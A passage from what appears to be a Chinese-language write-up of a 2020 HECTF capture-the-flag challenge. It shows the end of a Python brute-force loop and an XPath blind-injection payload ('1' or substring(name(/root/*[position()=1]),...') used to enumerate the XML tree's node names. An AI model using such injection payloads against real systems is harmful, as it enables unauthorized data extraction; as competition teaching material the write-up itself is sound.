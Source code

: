 ```python
    if flag == 0:
        break

print(result)

# !####! 换成目录即可

```
结果爆出第一级为root
![image-20201129161139719](2020-HECTF-Write-up/image-20201129161139719.png)

同理，修改第13行为`"1' or substring(name(/root/*[position()=1]),"`
继续爆
![image-20201129161225253](2020-HECTF-Write-up/image-20201129161225253.png)
